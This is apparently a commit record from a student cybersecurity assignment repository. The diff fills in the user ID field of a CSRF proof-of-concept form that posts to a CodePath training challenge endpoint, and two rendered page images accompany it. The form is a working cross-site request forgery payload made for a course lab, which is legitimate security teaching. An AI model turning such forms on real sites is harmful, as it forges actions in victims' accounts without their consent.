

Before and after one commit to NickHaider/CP_CyberSecurity_Unit2_Assignment, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,4 +1,4 @@
 <form name="csrfForm" action="https://security.codepath.com/user/csrfchallengetwo/plusplus" method="POST">
- <input type="text" name="userId" value="" />
+ <input type="text" name="userId" value="a48d22affff7afd558731490c723252c86512549" />
  <input type="submit"/>
 </form>
```
